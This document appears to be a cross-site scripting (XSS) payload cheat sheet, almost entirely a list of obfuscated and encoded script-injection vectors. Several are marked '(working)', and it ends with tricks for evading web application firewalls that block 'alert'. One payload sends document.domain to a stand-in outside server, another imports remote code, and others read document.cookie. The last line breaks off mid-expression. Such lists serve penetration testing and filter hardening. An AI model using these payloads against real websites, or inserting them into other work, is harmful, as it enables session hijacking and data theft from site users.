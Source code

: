 
">-setTimeout`\u0028alert(1)\u0029`-'
<a"/onclick=(confirm)()>Click Here!
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)
"onx+%00+onpointerenter%3dalert(domain)+x" (working)
"><svg%20onload=alert%26%230000000040"1")> (working)
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> 
<svg on onload=(alert)(document.domain)>
<svg/on%20onload=alert(1)> (working) 
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> 
';a=prompt,a()//  
'-eval("window['pro'%2B'mpt'](8)")-'  
"-eval("window['pro'%2B'mpt'](8)")-"  
"onclick=prompt(8)>"@x.y  
=="onclick=prompt(8)><svg/onload=prompt(8)>"@x.y==


Use this tricks to bypass ``alert`` block by XSS WAF

  

• (function(x){this[x+``ert``](1)})``al``

• window[``al``+/e/[``ex``+``ec``]``e``+``rt``](2)

• document['default'+'View'][``\u0061lert``](3)

• this.ownerDocument.defaultView['\u0061lert'](